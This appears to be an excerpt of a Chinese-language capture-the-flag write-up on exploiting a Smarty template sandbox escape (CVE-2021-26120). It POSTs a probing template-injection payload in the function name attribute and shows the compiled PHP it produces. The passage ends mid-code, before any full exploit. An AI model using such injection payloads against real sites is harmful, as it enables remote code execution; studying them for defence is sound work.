 <div align=center><img src="./images/10.png"></div>

<div align=center><img src="./images/11.png"></div>

搜索题目信息后发现存在可以利用的漏洞, `Smarty_Internal_Runtime_TplFunction`沙箱逃逸`PHP`代码注入漏洞(CVE-2021-26120), 参考[GitHub Update](https://github.com/smarty-php/smarty/commit/290aee6db33403a4b9426b572b79a990232b31dd).

由于`Smarty`在编译模板语法时, `Smarty_Internal_Runtime_TplFunction`类在定义时不能正确过滤`name`属性`tplFunctions`, 导致攻击者可以通过注入`Payload`来远程执行代码.

<div align=center><img src="./images/12.png"></div>

但是这里和这个漏洞又不太一样, 需要进行绕过, 先简单`POST`一个数据过去`data={function name='(){};'}{/function}`

```php
<?php
/* Smarty version 3.1.39, created on 2022-03-22 23:35:26
  from 'cca2ce857d642a4c0875c01a8508fdfe6fb1889f' */

/* @var Smarty_Internal_Template $_smarty_tpl */
if ($_smarty_tpl->_decodeProperties($_smarty_tpl, array (
  'version' => '3.1.39',
  'unifunc' => 'content_6239ecbe814d21_96774455',
  'has_nocache_code' => false,
  'file_dependency' => 
  array (
  ),
  'includes' => 
  array (
  ),
),false)) {
function content_6239ecbe814d21_96774455 (Smarty_Internal_Template $_smarty_tpl) {
$_smarty_tpl->smarty->ext->_tplFunction->registerTplFunctions($_smarty_tpl, array (
  '(){};' => 
  array (
```
